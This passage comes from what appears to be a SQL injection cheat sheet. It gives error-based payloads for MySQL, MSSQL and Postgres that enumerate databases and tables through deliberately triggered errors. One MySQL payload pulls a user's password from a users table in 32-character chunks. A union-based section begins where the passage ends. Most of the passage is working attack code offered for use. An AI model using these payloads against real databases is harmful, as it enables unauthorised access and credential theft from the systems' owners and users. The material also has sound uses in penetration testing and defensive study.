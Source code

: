 ### 3.1 Mysql
Get list of databases
```sql
select extractvalue('',concat('>',(
                select group_concat(table_schema)
                from (
                         select table_schema from information_schema.tables
                                             where table_schema not in ('information_schema','mysql','performance_schema','sys')
                                             group by table_schema
              )
                as foo)
                )
            );
```
Get password part
```sql
extractvalue('',concat('>',(select substring(password,1,32) from users limit 1 offset 0)))
```
Using substring you can change offset and get next part of password

### 3.2 MSSQL
Get list of databases
```sql
SELECT CAST((
SELECT name, ',' FROM master..sysdatabases
                 where name not in ('master','tempdb','model','msdb')
                 FOR XML path('')) as int)
```
### 3.3 Postgres
Get list of tables
```sql
select cast((
                SELECT string_agg(table_name, ',') value
            FROM information_schema.tables
            WHERE table_schema = 'public'
            group by table_schema
    ) as integer)
```

### 3.4 Other error based payloads
Other error based payloads  https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql 

[Return to Table of Contents](#table-of-contents)

## 4. Union Based SQL Injection
- Number of columns must be the same in the tables

Original sql
```sql
SELECT id, name, author from books where id=?
```
### Mysql
- types of columns can be different in the tables
